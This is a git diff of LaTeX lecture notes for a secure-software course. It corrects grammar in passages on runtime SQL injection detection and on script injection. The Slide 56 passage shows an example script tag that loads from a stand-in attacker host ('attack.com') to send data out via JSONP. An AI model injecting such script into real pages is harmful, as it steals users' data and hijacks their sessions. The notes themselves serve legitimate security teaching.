

Before and after one commit to HelenaCat/DevelopmentOfSecureSoftware, a LaTeX document (Lesnotas.tex): two parts of pages 36 and 37 of 72, joined at a grey line, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
corrected some errors

```diff
--- a/Lesnotas.tex
+++ b/Lesnotas.tex
@@ -610,7 +611,7 @@ The attack is similar to you having open another tab with the defriend page wher
 \end{itemize}
 The main thing you have to remember is the spectrum of problems.
 
-\paragraph{Slide 48:} Sometimes you just want to learn, so you'll have the application throw errors at you. You want to understand which SQL database is at use.
+\paragraph{Slide 48:} Sometimes you just want to learn, so you'll have the application throw errors at you. You want to understand which SQL database is in use.
 
 \paragraph{Slide 49:}
 \begin{itemize}
@@ -624,20 +625,20 @@ The main thing you have to remember is the spectrum of problems.
 For new code there's no excuse. It's easy to get rid of it by limiting yourself to the given points.\\
 The difficulty is that there is a lot of legacy code and it's hard to apply the given points to that.
 
-\paragraph{Slide 52:} There are tools to find SQL injection vulnerabilities. The tool will try to identify all the places where input can get into the program. It identifies the sinks (where you put the input) and the program will analyse if it can go to a place it shouldn't go to. It could give false positives and false negatives. They help you but they don't give you any guarantees.
+\paragraph{Slide 52:} There are tools to find SQL injection vulnerabilities. The tool will try to identify all the places where input can get into the program. It identifies the sinks (where you put the input) and the program will analyse if it can go to a place where it shouldn't go to. It could give false positives and false negatives. They help you but they don't give you any guarantees.
 
-\paragraph{Slide 53:} SQL injection at runtime: the essential trick is that they will do precise taint-tracking:  whenever a SQL query is going to the database at runtime, the programming languages that is executed to create these queries will do taint-tracking. At the program when the program does an output, you know where it came from. The underlined characters came from dangerous input sources. If it sees this, it will taint it and when there's an output, you can still see what's tainted. The grey areas came from the user and the rest was hardcoded in the program. Then it's relatively easy to detect SQL injection. A good heuristic is that if you're parsing the query, all user input should cover a subtree of the parse tree. All the user input corresponds to a subtree of the query. That means that the user input has not changed the structure of the query (it's as the programmer expected it). On the right there's no single subtree of the parse query that covers the input. So that piece of user input has changed the structure of the query $\rightarrow$ very often an indication of SQL injection. The disadvantage of this is that there are small false positives possible. You might want to allow the user to change a query, then the example on the right would give a false positive. It als has a runtime cost (you pay a bit in performance).
+\paragraph{Slide 53:} SQL injection at runtime: the essential trick is that they will do precise taint-tracking:  whenever an SQL query is going to the database at runtime, the programming languages that is executed to create these queries will do taint-tracking. At the program when the program does an output, you know where it came from. The underlined characters came from dangerous input sources. If it sees this, it will taint it and when there's output, you can still see what's tainted. The grey areas came from the user and the rest was hardcoded in the program. Then it's relatively easy to detect SQL injection. A good heuristic is that if you're parsing the query, all user input should cover a subtree of the parse tree. All the user input corresponds to a subtree of the query. That means that the user input has not changed the structure of the query (it's as the programmer expected it). On the right there's no single subtree of the parse query that covers the input. So that piece of user input has changed the structure of the query $\rightarrow$ very often an indication of SQL injection. The disadvantage of this is that there are small false positives possible. You might want to allow the user to change a query, then the example on the right would give a false positive. It als has a runtime cost (you pay a bit in performance).
 
 \paragraph{Slide 54:} They're still being performed today. For new code, there's no excuse to have them, in old code it's still possible.
 
 \paragraph{Slide 56:} We have a good server and a good browser and the browser has opened a page at that server, the attacker is trying to insert code into the page. If the attacker wants to attack good.com, he has much more power if he can let a script execute in good.com than in a different tab.\\
 If you succeed at injecting a script, you can get information very easily. A script can include in the HTML page an additional HTML element (e.g. an image). The browser will then automatically try to load that image (do a GET). The attacker can choose the URL and add parameters. This is an easy way to send out information to the attacker.
 Even if the SOP policy is forbidding you to look at responses (which it does), you can bypass it (JSONP). You'll load a script: \\
-<script src="http://attack.com?<parameters>></script>\\
+$<$script src=``http://attack.com?$<$parameters$>"><$/script$>$\\
 The browser will send a request to attack.com. attack.com wants to send back information to the script. You can have it return something like
-Process(<response>) $\rightarrow$ function call.\\
+Process($<$response$>$) $\rightarrow$ function call.\\
 The script that the attacker has injected gives him the ability to choose the URL and add parameters. attack.com sends back a process function call and two-way communication is set up. The attacker can then do two-way communication.\\
-This was a flaw in the SOP, but it was very useful. It's now thought of as a development technique (Google Maps): Google sends scripts and does bidirectional communication with the shown script). This way you can create mashup application. This vulnerability has become a feature, but it makes a risk a a bit higher.
+This was a flaw in the SOP, but it was very useful. It's now thought of as a development technique (Google Maps): Google sends scripts and does bidirectional communication with the shown script). This way you can create mashup applications. This vulnerability has become a feature, but it makes the risk a bit higher.
 
 \paragraph{Slide 57:} Once you have this, you can do whatever you want (whatever the user can do on good.com, you can do). This kind of script injection is a very devastating attack.
 
```
Also changed, not shown: Lesnotas.pdf, Lesnotas.tex (17 more changed lines).
